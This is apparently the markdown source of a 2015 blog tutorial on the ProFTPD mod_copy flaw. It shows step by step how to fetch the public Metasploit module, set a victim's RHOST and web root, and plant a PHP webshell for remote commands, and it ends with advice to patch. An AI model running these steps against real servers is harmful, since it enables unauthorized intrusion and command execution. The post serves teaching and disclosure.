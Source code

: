 +++
author = "Mansoor A"
date = 2015-08-27T18:23:18Z
description = ""
draft = false
url = "proftp-vulnerability-could-allow-an-attacker-to-gain-a-shell-in-your-server"
title = "Hacking a Linux server by exploiting the FTP server ( Proftpd )"

+++


The vulnerability in the mod_copy module of Proftpd was disclosed a couple months back. Most servers using Proftp are still vulnerable to attacks as they're using older versions of the software. If you're using Proftpd version 1.3.5 or before, your server is vulnerable and it's just a matter of time before someone takes advantage of that vulnerability. So, I thought I'd do a write up about the same, including a demonstration of how easy and terrifying the situation is.

### Who all are affected?

Any Linux server running Proftp version < 1.3.5 are vulnerable.

### How does it work?

mod_copy is a module for the Proftp server, which implements the "SITE CPFR" & "SITE CPTO" command, using these commands the user can move around files or folders in the server. That is, normally, if you want to copy a file from one place in the server to another place using FTP, you'd have to transfer it to the local system, then upload it to the target location in the server. But, using mod_copy you can simply transfer it without having to download to your local system.

There is a vulnerability in the software which allows "ANY UNAUTHENTICATED" user to use the above commands to copy the files. That's right, any user.

### What is the impact, if someone exploits it?

Well, basically, they could have a shell in your server which is more than enough to do some serious sh#t.
In fact, I'll show you how you can exploit this vulnerability using metasploit. 
Yeah, that's right! someone wrote an exploit for this vulnerability and it works like a charm

### Let's try this!!

Let's try to exploit this vulnerability using metasploit and see if we're any successful. 
> PLEASE NOTE THAT THIS IS FOR EDUCATIONAL PURPOSES ONLY, TRY THIS ON DEVICES YOU'RE AUTHORIZED AND I WILL NOT BE RESPONSIBLE FOR YOUR ACTIONS.

I assume that you've metasploit all ready for action, let's jump right into it.

Here's my set up: I have an  ubuntu server running on VirtualBox and Kali Linux (my host machine) is the attacker.

#### Step 1 : Download the exploit into your computer. 
For that, open a terminal as root and download the exploit from <a href="https://raw.githubusercontent.com/rapid7/metasploit-framework/master/modules/exploits/unix/ftp/proftpd_modcopy_exec.rb" target="_blank">HERE</a>

```shell
wget https://raw.githubusercontent.com/rapid7/metasploit-framework/master/modules/exploits/unix/ftp/proftpd_modcopy_exec.rb
```

Copy it into exploits folder.

```shell
cp proftpd_modcopy_exec.rb /usr/share/metasploit-framework/modules/exploits/unix/ftp/
```

#### Step 2: Open msfconsole. 
For that, open up a Terminal ( as root ) and type "msfconsole"

 ![Msfconsole](https://cdn.esc.sh/jekyll/posts/metasploit/msf2.png)

#### Step 3: Once metasploit is loaded, use the following command to load the exploit

```shell
use exploit/unix/ftp/proftpd_modcopy_exec
# After that, we have to set the remote host ( victim server )
set RHOST 192.168.1.102
set SITEPATH /var/www/html
```

You can always type "show options" to see all the options you have to set. Here, RHOST is the remote server we're trying to exploit. The "SITEPATH" is the document root for the webserver. Once you're all set, type "exploit" and press enter. That's it.

You should now have a session opened from the remote server where you can execute any command.

 ![Msfconsole](https://cdn.esc.sh/jekyll/posts/metasploit/msf3.png)

Here's what happened when you typed "exploit" and press enter. The exploit makes use of the vulnerability to upload a PHP webshell into the server and metasploit presents you with an interface to that shell where you can execute commands. Did you notice how easy was it to exploit the server? All we needed was the IP address of the server. Pretty scary huh?

### How to prevent this?

Just update the packages in your server and you should be fine. Keep yourself updated, Stay safe.!! 🙂

